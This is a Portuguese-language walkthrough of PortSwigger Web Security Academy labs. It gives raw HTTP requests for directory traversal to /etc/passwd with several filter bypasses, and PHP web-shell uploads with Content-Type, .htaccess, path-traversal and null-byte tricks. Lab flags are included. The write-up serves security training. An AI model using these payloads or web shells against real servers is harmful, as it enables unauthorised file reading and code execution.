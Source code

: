 # Exercises

## Directory traversal

### >> 1. File path traversal, simple case
Crie uma requisição GET contendo o caminho do arquivo a ser lido
````http
GET /image?filename=../../../etc/passwd HTTP/1.1
Host: ac611f7c1ebca4cec0b52379003e009f.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 2. File path traversal, traversal sequences blocked with absolute path bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/etc/passwd HTTP/1.1
Host: ac601f011f09bc6dc05120b5004a00fa.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 3. File path traversal, traversal sequences stripped non-recursively
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=....//....//....//....//etc//passwd HTTP/1.1
Host: acb91f041e530947c0f6088a004200cf.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 4. File path traversal, traversal sequences stripped with superfluous URL-decode
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: ace71f641fb2b647c042061a009f000c.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 5. File path traversal, validation of start of path
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
Host: ac161f371e40f5e0c054e80a00050088.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 6. File path traversal, validation of file extension with null byte bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
Host: ac491fa91eae86f5c0c5043900fb008a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````



## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

`Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s`

### >> 2. Web shell upload via Content-Type restriction bypass
Crie um arquivo com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens 

Encaminhe a request para repeater e altera o header de:

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

e acesse o arquivo submetido através do link informado.

`Flag: iiVfQK3LlDuvm0uskl9M2nHoeSEX4JrA`

### >> 3. Web shell upload via path traversal
Crie um arquivo com o conteudo
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

Submeta o arquivo para upload e acesse pelo navegador
````http

------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fwebshell2.php"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="csrf"

D3cLNSSIkUUvvKdxO0LsCy8ryg6CxhH7
------WebKitFormBoundarywl7b3A4o80gjAjZb--
````

`Flag: XkJTTpCMVsexpPb2EkLhZpRnuIhc7D1h`

### >> 4. Web shell upload via extension blacklist bypass

Crie um arquivo .htaccess com permissao de execucao php para shtml
````apache
<Files *.shtml>
ForceType application/x-httpd-php
</Files>
````

Crie um arquivo webshell
````php
<?php echo file_get_contents('/home/carlos/secret'); ?>
````

````htttp
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

<Files *.shtml>
ForceType application/x-httpd-php
</Files>
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundarye3lspOAogkMjAhO7--
````

````http
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="avatar"; filename="webshell.shtml"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundaryid3hJcJV3tX9G7VB--
````

### >> 5. Web shell upload via obfuscated file extension

Crie uma requisição com o nome do arquivo modificado para atender os requisitos
````http
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="avatar"; filename="webshell.php%00.png"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="csrf"

Ra1gXgVnwyebhHPsi3FWWSNBfY14epng
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U--
````

### >> 6. Remote code execution via polyglot web shell upload
https://github.com/chinarulezzz/pixload/blob/master/README.md
https://portswigger.net/web-security/file-upload#what-are-file-upload-vulnerabilities

